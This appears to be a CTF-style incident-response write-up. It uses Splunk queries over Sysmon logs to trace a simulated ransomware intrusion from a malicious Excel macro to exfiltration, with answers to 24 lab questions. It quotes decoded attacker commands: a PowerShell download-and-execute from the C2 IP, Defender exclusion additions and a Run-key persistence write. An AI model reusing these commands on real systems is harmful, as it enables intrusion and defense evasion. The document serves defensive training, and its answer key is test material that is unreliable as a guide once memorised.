

### Stage1: Initial access, downloaded files
An employee downloaded a ZIP archive containing a malicious Excel file.

SPL command:
```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=15 file_name=*"Zone.Identifier" 
| stats count by file_name, Computer, User, _time 
| sort + count
```

| File name              | Computer | User             | Time                | Path                                                                                                 |
| ---------------------- | -------- | ---------------- | ------------------- | ---------------------------------------------------------------------------------------------------- |
| Financial Records.zip  | ws1      | FINANCEES\knixon | 2025-03-21 15:08:41 | C:\Users\knixon\Downloads\Financial Records.zip                                                      |
| Financial Records.xlsm | ws1      | FINANCEES\knixon | 2025-03-21 15:08:52 | C:\\Users\\knixon\\AppData\\Local\\Temp\\Rar$DRa5692.4182.rartemp\\Financial Records.xlsm            |
| FBF8DA15.xlsm          | ws1      | FINANCEES\knixon | 2025-03-21 15:09:06 | C:\\Users\\knixon\\AppData\\Local\\Packages\\oice_16_974fa576_32c1d314_10e8\\AC\\Temp\\FBF8DA15.xlsm |
| netscan_portable.zip   | ws1      | FINANCEES\knixon | 2025-03-21 15:41:59 | C:\\Users\\knixon\\Downloads\\netscan_portable.zip                                                   |

1. Question: An employee downloaded a ZIP archive containing a malicious Excel file. What was the full URL used to download this file?

```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=15 file_name=*"Zone.Identifier" 
| stats count by file_name,Contents, _time
| sort + count
```
URLs:
The zip archive were downloaded from: <br>
**http[://]54.93.105.22/Financial%20Records.zip**
https://www.softperfect.com/download/files/netscan_portable.zip


2. Question: After extracting the ZIP archive, the employee opened an Excel file that triggered the execution of malicious Macro. What is the SHA256 of this Excel file?
```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=15 file_name="FBF8DA15.xlsm" 
| stats count by file_name, SHA256
```

SHA256: **030E7AD9B95892B91A070AC725A77281645F6E75CFC4C88F53DBF448FFFD1E15**


### Stage2: Execution and persistence
After extracting the ZIP archive, the employee opened an Excel file that triggered the execution of malicious Macro.
```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1  Computer=ws1 User="FINANCEES\\knixon"   ParentImage="C:\\Program Files\\Microsoft Office\\Office16\\EXCEL.EXE" 
| stats count by ParentImage, Image, CommandLine
```


```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1  Computer=ws1 User="FINANCEES\\knixon" app="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" 
| stats count by ParentImage, Image, _time, CommandLine
```


**Decoded commands:**
```
Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"
```
- Add-MpPreference -ExclusionPath "%LOCALAPPDATA%/Temp"
- Add-MpPreference -ExclusionPath "%APPDATA%/Microsoft"
- Add-MpPreference -ExclusionPath "C:\ProgramData\Microsoft\ssh"
- Start-process $env:LOCALAPPDATA\Temp\Pancake.jpg.exe

**Setting registry for persistence:**
- $objShell = New-Object -ComObject WScript.Shell; $objShell.RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater", "wscript.exe %LOCALAPPDATA%/Temp/F6w1S48.vbs", "REG_SZ")


3. Question: Following the execution of the malicious Excel file, an additional file was created to continue the attack. What is the name of this file?<br>
 **F6w1S48.vbs**

4. Question: What is the full file path of the file that was created after the Excel document was opened?<br>
**C:\Users\knixon\AppData\Local\Temp\F6w1S48.vbs**
```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 Image="*powershell.exe*" Computer=ws1 User="FINANCEES\\knixon" file_name!="StartupProfileData-NonInteractive" file_name!="__PSScriptPolicyTest_*"
| stats count by Image, file_name, file_path, _time
```


5. Question: During the early execution stage, a DLL was deployed as part of the attack chain. What is the name of this DLL?<br>
**WindowsUpdaterFX.dll**

```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1  Computer=ws1 User="FINANCEES\\knixon"  F6w1S48.vbs 
| stats count by ParentImage, Image, CommandLine, _time
```


6. Question: What was the Process ID of the process that launched the malicious DLL?<br>
**8592**

```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1  Computer=ws1 User="FINANCEES\\knixon"  WindowsUpdaterFX.dll
| stats count by ParentImage, parent_process_id, Image, CommandLine, _time
```


7. To maintain persistence, the attacker created a scheduled task that executes at system logon. What was the name of the scheduled task?<br>
**WiindowsUpdate**


8. As part of persistence, a registry key was created to ensure the script runs on user logon. What is the full registry key that was added?<br>
**HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater**


9. To evade detection, the attacker excluded 3 directories from Windows Defender. What are the full paths of the excluded directories?<br>
**C:\ProgramData\Microsoft\ssh, %APPDATA%\Microsoft, %LOCALAPPDATA%\Temp**

10. To establish communication with a remote server, a beacon file was dropped on the system. What was the name of the dropped beacon file?<br>
**Pancake.jpg.exe**




11. The beacon was used to communicate with the attacker’s Command and Control (C2) infrastructure. What was the IP address used for C2 communication?<br>
**54.93.105.22**
### Stage3: Lateral movement and discovery
```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1  Computer=ws1 User="FINANCEES\\knixon" Pancake.jpg.exe
| stats count by ParentImage, Image, CommandLine, _time
```

Downloads:
https://raw.githubusercontent.com/davehardy20/sysinternals/refs/heads/master/PsExec64.exe
https://www.softperfect.com/download/files/netscan_portable.zip Netscan.zip


12. To move laterally across the network, the attacker deployed a remote execution tool. What tool was used by the attacker to run commands remotely on other systems in the network?<br>
**PsExec64.exe**


13. A deprecated Windows command-line utility was used to download malicious files. What tool was used for this task?<br>
**bitsadmin**


14. To download files on the `DC01` the attacker used a legitimate command-line tool. Which tool was used to download files into the machine?<br>
**curl**

15. The attacker scanned the internal network to discover additional targets. What is the full command that was executed for network discovery?<br>
**netscan.exe /hide /range:10.10.11.1-10.10.255.255 /auto:results.xml**


16. A privileged domain account was used to facilitate data exfiltration from the domain controller. Which user account was compromised on `DC01`?<br>
**swhite**


### Stage4: Execution of ransomware and data exfiltration
```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 User="NT AUTHORITY\\SYSTEM"  Computer="DC01.financees.local"
|  stats count by ParentImage, Image, CommandLine, _time, Computer, User
```

17. Toward the end of the attack, a ransomware payload was deployed to encrypt files across the system. What was the name of the file that launched the ransomware?<br>
**6as98v.exe**


18. What was the Process ID  of the ransomware process? <br>
**5792**

```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 User="NT AUTHORITY\\SYSTEM"  Computer="DC01.financees.local"   Image="C:\\Users\\swhite\\AppData\\Local\\Temp\\6as98v.exe" 
| stats count by ParentImage, Image, process_id
```


19. The ransomware executed a command to remove shadow copies and prevent system recovery. Which user account executed this command? <br>
**NT AUTHORITY\SYSTEM**


20. To inhibit system recovery, the attacker issued a command to delete shadow copies. Which system utility was used to carry out this action?<br>
**vssadmin**


21. After successful encryption, the ransomware altered the affected files. What file extension was appended to the encrypted files? <br>
**.basta**
22. To prepare data for exfiltration, the attacker archived sensitive information into a compressed format. What was the name of the compressed file? <br>
**data.zip**


23. To transmit the stolen data, the attacker utilized a third-party exfiltration tool. What tool was used to exfiltrate the compressed file? <br>
**rclone**


24. The attacker uploaded the stolen data to a cloud-based service. What was the name of the cloud platform used for data exfiltration? <br>
**mega**


